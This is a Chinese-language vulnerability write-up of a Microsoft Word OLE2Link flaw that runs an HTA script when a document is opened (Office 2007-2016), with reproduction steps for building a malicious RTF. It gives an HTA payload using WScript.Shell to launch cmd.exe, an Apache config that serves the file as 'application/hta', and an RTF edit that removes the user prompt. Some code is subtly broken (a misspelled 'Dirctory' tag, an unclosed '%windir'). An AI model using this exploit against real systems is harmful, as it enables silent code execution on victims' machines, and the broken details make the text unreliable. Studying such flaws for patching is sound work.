 ### 漏洞简介

在无需用户交互的情况下，打开word文档就可以通过hta脚本执行任意代码。经过研究发现，此漏洞的成因主要是word在处理内嵌OLE2LINK对象时，通过网络更新对象时没有正确处理的Content-Type所导致的一个逻辑漏洞。

### 影响版本

Microsoft Office 2016

Microsoft Office 2013

Microsoft Office 2010

Microsoft Office 2007

### 漏洞复现

首先，创建一个正常的word文档，作为将要链接的rtf对象，命名为test.docx。

然后，将test.docx重命名为test.rtf后放到Apache服务器上面，并创建另一个文档，选择插入->对象->由文件创建，输入rtf文件路径后选择链接到文件。然后将该文件另存为rtf文件，名字为exp.rtf
![]()

这时，我们在服务器端修改test.rtf文件为Visual Script Script代码需要注意反斜杠的转义，这段代码将弹出本地计算器。
```
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir\\System32\\cmd.exe /c calc.exe',0);window.close();
</script>%
```

需要改一下Apache的配置，该代码会将该目录下的文件识别为hta脚本，然后重启服务器。
```
<Directory /var/www/html/test/>
    Header set Content-Type "application/hta"
</Dirctory>
```

点击“是”即可弹出计算器，此时用010Editor打开该文档，将\object\objautlink\rsltpict替换为\object\objautlink\objupdate\rsltpict，虽然仍然会有提示，但不需与用户交互，计算器便会自行弹出。

### 漏洞修复

安装最新补丁